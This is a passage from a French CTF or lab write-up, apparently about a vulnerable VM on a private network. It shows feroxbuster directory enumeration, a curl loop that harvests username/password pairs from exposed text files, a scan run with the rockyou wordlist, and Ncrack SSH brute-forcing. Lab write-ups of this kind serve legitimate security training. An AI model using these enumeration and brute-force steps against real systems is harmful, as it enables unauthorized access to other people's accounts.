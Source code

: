 ```console
200        1l        1w       16c http://192.168.242.138/shehatesme/forums.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/about.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/new.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/es.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/link.txt
200        6l       42w      229c http://192.168.242.138/shehatesme/
200        1l        1w       16c http://192.168.242.138/shehatesme/jobs.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/java.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/space.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/welcome.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/google.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/other.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/art.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/guide.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/faqs.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/secret.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/network.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/2001.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/smilies.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/folder.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/issues.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/full.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/airport.txt
200        1l        1w       16c http://192.168.242.138/shehatesme/alba.txt
[####################] - 10s    86006/86006   0s      found:29      errors:0      
[####################] - 10s    86006/86006   8348/s  http://192.168.242.138/shehatesme/
```

Une fois mis au propre dans un fichier `list.txt`, je récupère les credentials présents dans les fichiers :

```console
$ for line in $(cat list.txt); do curl -s "$line"; done | sort | uniq
hidden1/passZZ!
jaime11/JKiufg6
jhfbvgt/iugbnvh
john765/FDrhguy
maria11/jhfgyRf
mmnnbbv/iughtyr
nhvjguy/kjhgyut
smileys/98GHbjh
yuijhse/hjupnkk
```

J'ai passé ça à Ncrack pour brute-forcer les comptes SSH mais il n'a rien trouvé...

Pour tenter le tout pour le tout, j'ai eu recours à rockyou qui n'est pas du tout "small" :

```bash
feroxbuster -u http://192.168.242.138/shehatesme/ -w rockyou.txt -x txt -n |grep -e "^200" | grep txt | awk '{ print $5 }' > list.txt
```

Retour sur Ncrack qui ne trouve toujours pas de compte valide depuis les fichiers texte trouvés...
